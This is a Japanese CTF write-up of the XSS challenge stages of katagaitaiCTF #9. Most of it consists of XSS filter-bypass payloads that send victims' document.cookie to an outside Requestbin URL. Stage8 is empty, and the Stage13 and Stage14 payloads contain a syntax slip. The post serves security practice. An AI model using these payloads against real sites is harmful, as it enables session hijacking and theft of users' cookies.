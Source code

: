 ```yaml
---
layout: post
title: "katagaitaiCTF #9 XSS Knock Writeup"
date: 2017-08-29 21:00:00 +0900
tags: ctf
---
```


## katagaitaiCTF #9 XSS Knock Writeup

katagaitaiCTF #9 (https://atnd.org/events/89434)に参加してきました。WebのXSS千本ノックのWriteupを書きます。
State13まで解きました. メモがRequestbinのデータしかない...

参考

* [OWASP XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [Kinugawaさん 資料](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)

Kinugawaさんの見てるだけでも、こんなバイパスの仕方あるのかー、こんな発想思いつかん、という感じ
## Stage6	
onfocusでlocation.hrefを設定して、autofocusにすることでonfocusを呼び出す。

```
?q='onfocus=location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie); autofocus=""
```

## Stage7

```
?q='onfocus=location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie); autofocus=""
```

## Stage8



## Stage9
```
?q="data:text/html,<script>location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);</script>"
```

## Stage10
```
?q=<input type="text" onfscriptocus="location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);" autofocus="">
```

## Stage11
```
?q=<input type="text" onfscriptocus="location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);" autofocus="">
```


## Stage12
```
?q=<input type="text" onfscriptocus="location.href='https://requestb.in/ua35oeua?q='.concat(document.cookie);" autofocus="">
```

## Stage13
```
?q='); location.href='https://requestb.in/ua35oeua?q='concat(document.cookie);alert('1
```

## Stage14
```
?q=<svg onload=eval(URL.slice(105))> 
#<script>location.href='https://requestb.in/ua35oeua?q='concat(document.cookie);</script>
```
